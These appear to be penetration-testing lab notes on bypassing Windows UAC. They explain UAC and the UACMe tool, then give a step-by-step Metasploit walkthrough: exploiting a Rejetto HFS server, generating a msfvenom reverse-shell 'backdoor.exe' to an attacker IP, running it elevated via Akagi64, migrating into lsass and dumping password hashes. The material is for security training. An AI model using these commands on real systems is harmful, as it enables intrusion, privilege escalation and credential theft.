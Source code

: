 UAC (User Account Control)
- User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is a part of the local administrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.
- In the case that we have a Meterpreter session, or any form of shell on the target system, and want to perform an action with administrative privileges, a UAC prompt would be displayed on the target system's screen graphically, but nothing would be shown on our session, as such the only way for us to perform the action would be to bypass UAC controls altogether.

Bypassing UAC
- In order to successfully bypass UAC, we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
- UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation.
- There are multiple tools and techniques that can be used to bypass UAC, however, the tools and techniques used will depend on the version of Windows running on the target system, and the UAC level configured on the target system.

Bypassing UAC With UACMe
- UACMe is an open source, robust privilege escalation tool and guide developed by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques.
	- GitHub: https://www.github.com/hfiref0x/UACME 
- The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
- It allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AutoElevate tool.
- The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

Practical Demonstration
- Demonstration of UAC on a Windows system
	- Windows Command Prompt (From a user account that is a part of the local administrators group):
		- `net users`
		- `net localgroup administrators`
	- Next we can to run cmd.exe as administrator, in order for the system to prompt us with a UAC prompt.
	- The prompt would have been a credential prompt instead, if the user account we were logged in as wouldn't have been a part of the local administrators group.
	- Next we can open the "User Account Control Settings" to see the difference between the various different levels of UAC.
	- The High level of UAC also notifies the user incase a change is made to the system's settings, making it very difficult to bypass.
	- The default UAC option on a vanilla install of Windows is never set to the High level.
- UACME Usage Explanation:
	- In this demonstration we are going to use a compiled Akagi binary to bypass UAC, UACMe does not provide compiled binaries, and as such one would have to go through the compilation process before using the tool.
	- It is essential to go through the documentation for UACMe, to understand which technique is to be used in a particular scenario, and how to actually use it.
	- Usage of the Akagi binary can be performed with the following options, method and payload, where we first type in the corresponding number for the method of UAC bypass, and then the path to the payload we want to bypass UAC for the execution of.
		- `Akagi64.exe 1 ./payload.exe`
		- The version or the type of method to use will depend on the version of Windows running on the target, as well as the technique you have found to be most usable in the particular scenario.
- Exploitation
	- `nmap demo.ine.local`
	- A vulnerable HTTP file server, developed by Rejetto, is running on port 80.
	- `searchsploit hfs`
	- `service postgresql start; msfconsole`
	- `setg RHOSTS demo.ine.local`
	- `search rejetto`
	- `use exploit/windows/http/rejetto_hfs_exec`
	- `set payload windows/meterpreter/reverse_tcp`
	- `options`
	- `exploit`
	- Meterpreter Session:
		- `sysinfo`
		- We have a 32 bit Meterpreter session running so we will now try to migrate to a running process, using its process ID, to upgrade our Meterpreter session to a 64 bit session instead.
		- `pgrep explorer`
		- `migrate 2448`
		- We migrated to the `explorer` process for better stability, since it is a commonly run process.
		- `sysinfo`
		- `getuid`
		- Our current victim user account is not an administrator user, even though his username is 'admin'.
		- `getprivs`
		- `shell`
		- Windows Command Prompt
			- `net user`
			- `net localgroup administrators`
			- The command above displays users that are a part of the administrators group, here we can witness that the admin user, even though not an administrator, is a part of the administrators group, and has elevated privileges.
			- `net user admin password123`
			- The above command is used to change the password of the given user, it will give us an error or fail to execute, even though with have administrative privileges, because the execution of the command launches a UAC prompt.
	- Now that we have access to the target system via the non-Administrator 'admin' account. we will generate a payload using MSFvenom, upload it to the target system, and execute it bypassing UAC using Akagi64 from UACMe.
	- Starting a listener on the Attack Machine:
		- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f exe > backdoor.exe`
		- `file backdoor.exe`
		- `ls`
		- `msfconsole`
		- `use multi/handler`
		- `set payload windows/meterpreter/reverse_tcp`
		- `set LHOST 10.10.5.2`
		- `set LPORT 1234`
		- `run`
	- Back to our pre-existing Meterpreter session:
		- `pwd`
		- `getuid`
		- `getprivs`
		- `cd C:\\`
		- `mkdir Temp`
		- `cd Temp`
		- `upload backdoor.exe`
		- `upload /root/Desktop/tools/UACME/Akagi64.exe`
		- `shell`
		- Windows Command Prompt:
			- `.\Akagi64.exe 23 C:\Temp\backdoor.exe`
	- Back again to the TCP Listener on our Attack Machine, to verify that we have a reverse shell on the target system form the backdoor.exe payload we just executed:
		- New Meterpreter Session:
			- `sysinfo`
			- `getuid`
			- `getprivs`
			- Now we will observe that we have access to the target machine via the same user, 'admin', but the privileges we have with the 'admin' user have elevated.
			- We can now migrate to any running processes that have Administrative privileges, `NT AUTHORITY`.
			- `ps`
			- `pgrep lssas`
			- `migrate 688`
			- `sysinfo`
			- `getuid`
			- We will now have administrative, `NT AUTHORITY` privileges.
			- `hashdump`